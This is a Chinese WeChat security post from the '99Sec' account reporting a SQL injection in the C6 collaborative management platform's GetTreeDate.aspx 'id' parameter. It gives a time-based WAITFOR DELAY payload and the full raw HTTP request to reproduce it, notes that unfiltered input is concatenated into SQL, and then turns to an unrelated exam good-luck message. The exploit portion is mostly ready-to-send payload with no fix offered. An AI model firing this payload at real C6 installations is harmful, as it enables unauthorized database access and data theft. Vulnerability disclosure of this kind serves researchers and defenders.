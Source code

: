 #  某C6协同管理平台审计

原创 Shad0wJe  [ 99Sec ](javascript:void\(0\);)

**99Sec** ![]()

微信号 _99Sec

功能介绍 不定期分享一些web渗透、红队攻防、应急响应等技术技巧

____

___发表于_

收录于合集 #审计 1个

## 1\. 漏洞点

http://xx.xx.xx.xx/C6/Jhsoft.Web.users/GetTreeDate.aspx/?id=1

## 2\. 复现

http://xx.xx.xx.xx/C6/Jhsoft.Web.users/GetTreeDate.aspx/?id=1%3bWAITFOR+DELAY+'0%3a0%3a5'+--%20and%201=1

  *   *   *   *   *   *   *   * 

    
    
    GET /C6/Jhsoft.Web.users/GetTreeDate.aspx/?id=1%3bWAITFOR+DELAY+%270%3a0%3a5%27+--%20and%201=1 HTTP/1.1Host: 192.168.4.96User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/113.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: closeUpgrade-Insecure-Requests: 1

![](https://gitee.com/fuli009/images/raw/master/public/20230619142139.png)

## 3\. 代码审计

未过滤，直接拼接SQL语句导致注入产生

![](https://gitee.com/fuli009/images/raw/master/public/20230619142140.png)

![]()

## 4\. 祝广大考生金榜题名

## 亲爱的广大考生们：

高考到来，衷心祝愿你们都能发挥出最好的水平，取得优异的成绩。高考是人生中的一个重要节点，它不仅是对自己多年学习的检验，更是未来道路的起点。在这个重要的时刻，我希望你们能够保持冷静和自信，认真审题，仔细答题，严格按照考试规定和时间完成考试。同时，也希望你们能够适度放松，保持身心健康，以最好的状态迎接考试。最后，再次祝愿你们金榜题名，前程似锦，实现自己的人生理想。希望你们在高考中发挥出最好的水平，为自己的未来奠定坚实的基础。

![](https://gitee.com/fuli009/images/raw/master/public/20230619142141.png)

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

